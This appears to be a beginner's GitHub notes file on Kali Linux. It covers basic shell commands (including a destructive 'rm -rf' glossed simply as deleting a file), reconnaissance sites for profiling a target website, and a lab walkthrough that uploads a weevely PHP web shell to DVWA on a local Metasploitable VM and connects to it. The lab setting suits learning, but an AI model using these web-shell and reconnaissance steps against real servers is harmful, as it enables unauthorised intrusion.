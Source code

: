 
# kali linux commands

- prints current working directry, uses to redirect to open a file - `pwd`  

- list all files - `ls`

- open a folder - `cd`

- previous folder - `..`  

- prints descrption of a function - `man`   

-  Delete a file `rm -rf` 

- used to update like (winget in windows) - `sudo apt-get update` 

- upgrade kali linux - `sudo apt upgrade` 

- update kali linux - `sudo apt update`  

<h3 align="center"> ... </h3>  

## check IP address


- to check the information of the target website  
```
http://whois.domaintools.com/
```
- to check which techonology is used in target website  
```
http://toolbar.netcraft.com/site_report?url=
```

- which which website have same ipaddress  

>if we can hack into 1 we can hack all the other

```
https://www.robtex.com/ 
```  
- Using bing.com, search for `ip: [target ip]`
- <h3 align="center"> ... </h3> 

# file upload vulnerability

- open metasploitable in vmware
- run `ifconfig`
- copy the ipaddress and now open kali browser and paste it in the url
- open DVWA
- username: `admin`
- password: ` password`
- open upload in the side menu section
- ![image](https://github.com/stellados53/kali-commands/assets/142677726/ef6b3d0c-f2fe-4fa9-8941-ebf6de5fb677)
- download a image and try to upload in DVWA
- now its generate a URL as shown in the image..copy it.
- paste it in the newtab with
```
 http://192.168.11.128/dvwa/....
```
<h3> UPLOADING PHP </h3> 

- open kali terminal.
- run.

```
weevely generate 123456 /root/shell.php
```
- now it generates copy and paste in the new tab with a `http://.....` as before

- now in terminal run
```
weevely http://192.168.11.128/dvwa/hackable/uploads/shell.php 123456
```
![image](https://github.com/stellados53/kali-commands/assets/142677726/32f5e0e0-bdd3-425b-9e8c-56dba7d6bc3e)

 



